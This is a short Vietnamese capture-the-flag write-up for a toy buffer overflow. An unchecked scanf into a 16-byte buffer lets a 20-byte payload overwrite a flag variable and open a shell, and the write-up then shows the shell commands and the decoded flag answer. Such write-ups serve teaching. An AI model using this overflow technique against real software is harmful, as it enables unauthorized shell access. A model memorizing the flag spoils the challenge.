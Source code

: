 1. Vị trí có thể khai thác:  
  Hàm scanf("%s", buf);:    
  buf chỉ có 16 bytes, nhưng scanf("%s") không kiểm tra kích thước nhập vào, có thể nhập dữ liệu lớn hơn để ghi đè lên biến v1.  
  Nếu ghi đè v1 != 0, chương trình sẽ chạy system("/bin/sh"), mở một shell cho attacker.  
Payload : AAAAAAAAAAAAAAAAAAAA\x01\x00\x00\x00

vào shell   
-> ls -la  
-> thay file .flag  
-> cat .flag  
-> flag dạng hex  
-> decrypt 

4649417b305633725f463130575f31535f333453597d -> FIA{0V3r_F10W_1S_34SY}
